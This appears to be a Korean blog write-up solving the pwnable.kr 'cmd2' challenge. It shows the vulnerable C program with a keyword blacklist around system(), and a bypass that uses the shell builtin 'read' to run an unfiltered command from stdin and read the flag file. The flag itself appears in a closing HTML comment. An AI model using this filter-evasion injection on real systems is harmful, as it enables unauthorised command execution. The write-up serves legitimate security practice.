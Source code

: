 ```yaml
---
title: "pwnable.kr - Toddler's bottle #14 cmd2"
date: 2020-03-08
categories:
  - Information Security
tags:
  - pwnable.kr
---
```


[pwnable.kr][pwnable.kr] Toddler's bottle의 #14 cmd2 문제 풀이

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "=")!=0;
        r += strstr(cmd, "PATH")!=0;
        r += strstr(cmd, "export")!=0;
        r += strstr(cmd, "/")!=0;
        r += strstr(cmd, "`")!=0;
        r += strstr(cmd, "flag")!=0;
        return r;
}

extern char** environ;
void delete_env(){
        char** p;
        for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
        delete_env();
        putenv("PATH=/no_command_execution_until_you_become_a_hacker");
        if(filter(argv[1])) return 0;
        printf("%s\n", argv[1]);
        system( argv[1] );
        return 0;
}

```

delete_env는 environment variable을 모두 삭제하는 내용이다. extern char** environ에 대해서는 man environ 해보면 자세한 내용이 설명되어 있다.

argv를 통해서 뭘 등록시켜 보려고 해도 export고 PATH고 =고 전부 ban word라 안된다

working directory를 /bin으로 하고 실행해보면 뭐가 될까 싶었는데 /가 안되서 아무것도 실행할수 없다. /를 대체할수 있는 뭔가 있는가 싶어 찾아봤지만 안된다

어떻게 풀어야 할지 난감했는데 실험하다 보니 echo나 pwd같은 명령어는 잘 된다는 것을 확인. 나는 이게 /bin에 있는 binary인줄 알았는데 그렇다면 ls나 cat과 마찬가지로 안되어야 하므로 sh의 내장명령어 같은거일거라고 짐작했다.

[sh에 대해 잘 설명되어 있는곳][sh_explain_link]

그중에 이런게 있었다
~~~
read [-r] name ...	
One line is read from the standard input; successive words of the input are assigned to the variables name in order, with leftover words to the last variable. The return code is 0 unless end-of-file is encountered. Normally, backslashes escape the following character; this is inhibited if the -r option is given.
~~~

대략 read xxx yyy 하고 실행하면 stdin으로 input을 받고, 이 input을 word 단위로 tokenize하여 xxx, yyy에 넣는다고 한다. 그리고 word의 숫자가 input보다 크면 마지막 variable에 전부가 들어간다고 한다. 대략 아래처럼 됨

~~~
cmd2@pwnable:~$ read i_ls i_ps && $i_ls && $i_ps
ls ps
cmd2  cmd2.c  flag
error: can not access /proc   # 서버에서 ps할 수 있는 권한이 없어서 이렇게 뜸
~~~

내가 stdin으로 주는 것은 filtering을 안하니까 이를 통해 실행시키면 되겠다 싶어 해봤고, 성공함

~~~
cmd2@pwnable:~$ ./cmd2 "read input && \$input"
read input && $input
/bin/cat /home/cmd2/flag
<tag output>
~~~

writeup을 보니 이것 외에도 여러 기상천외한 solution이 있는듯? 공통점은 sh command를 잘 사용해서 푼다는 점

[pwnable.kr]: https://pwnable.kr
[sh_explain_link]: https://www.computerhope.com/unix/ush.htm

<!-- FuN_w1th_5h3ll_v4riabl3s_haha -->